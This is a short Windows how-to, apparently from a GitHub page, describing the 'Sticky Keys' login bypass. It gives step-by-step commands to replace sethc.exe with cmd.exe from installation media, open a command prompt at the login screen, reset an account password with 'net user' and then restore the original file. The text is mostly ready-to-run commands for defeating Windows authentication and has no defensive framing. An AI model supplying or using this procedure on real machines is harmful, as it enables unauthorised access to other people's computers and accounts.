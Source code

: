  Sticky Keys Method (sethc.exe)
 
 📝 Description:
  By replacing Sticky Keys executable (sethc.exe) with cmd.exe, you can launch CMD from the login screen by pressing Shift 5 times.
  
🧰 Steps:

    Boot using Windows installation media and open CMD (Shift + F10).

    Backup original Sticky Keys binary:

copy C:\Windows\System32\sethc.exe C:\Windows\System32\sethc.bak

Replace it with CMD:

copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe /y

Reboot. On login screen, press Shift 5 times.

CMD opens. Reset the password:

net user admin *

Restore sethc.exe after access:

copy C:\Windows\System32\sethc.bak C:\Windows\System32\sethc.exe /y
